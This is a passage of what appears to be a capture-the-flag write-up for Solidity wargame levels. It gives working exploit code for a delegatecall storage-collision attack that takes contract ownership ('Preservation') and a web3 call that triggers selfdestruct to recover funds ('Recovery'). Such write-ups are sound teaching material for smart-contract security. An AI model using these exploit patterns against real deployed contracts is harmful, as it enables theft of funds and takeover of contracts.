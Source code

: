 The solution is to just approve another address to take the coins out on behalf of player. You can find a minimal ERC20 token contract on the internet, load the level instance on remix and interact with the contract through remix.


## 16. Preservation
You need to understand how `delegatecall` works and how it affects storage variables on the calling contract to be able to solve this level. Essentially, when you try to do `delegatecall` and call the function `setTime()`, what's happening is that it is not just applying the logic of `setTime()` to the storage variables of the calling contract, it is also preserving the index of the `storedTime` variable in the calling contract and using that as a reference as to which variable should it update.

In short, the `LibraryContract` is trying to modify the variable at index 0 but on the calling contract, index 0 is the address of `timeZone1Library`. So first you need to call `setTime()` to replace `timeZone1Library` with a malicious contract. In this malicious contract, `setTime()` which will modify index 3 which on the calling contract is the owner variable!

1. Deploy the malicious library contract
2. Convert malicious contract address into uint.
3. Call either `setFirstTime()` or `setSecondTime()` with the uint value of the malicious contract address (step 2)
4. Now that the address of `timeZone1Library` has been modified to the malicious contract, get the uint value of your player address
5. call `setFirstTime()` with the uint value of your player address.
```
pragma solidity ^0.8.0;

contract AttackPreservation {

    // stores a timestamp
    address doesNotMatterWhatThisIsOne;
    address doesNotMatterWhatThisIsTwo;
    address maliciousIndex;

    function setTime(uint _time) public {
        maliciousIndex = address(uint160(_time));
    }
}

await contract.setFirstTime("<insert uint value of your malicious library contract>")
await contract.setFirstTime("<insert uint value of your player>)

```

## 17. Recovery
Notice how there exists a function called `destroy()` which calls `selfdestruct()`. `selfdestruct()` is a way for you to "destroy" a contract and retrieve the entire eth balance at that address. So what you need to do is encode it into the `data` payload initiate a transaction to it. You need to analyse your transaction hash to determine the address of the lost contract. Once you have that, you should be able to solve this level.
```
data = web3.eth.abi.encodeFunctionCall({
    name: 'destroy',
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_to'
    }]
}, [player]);
await web3.eth.sendTransaction({
    to: "<insert the address of the lost contract>",
    from: player,
    data: data
```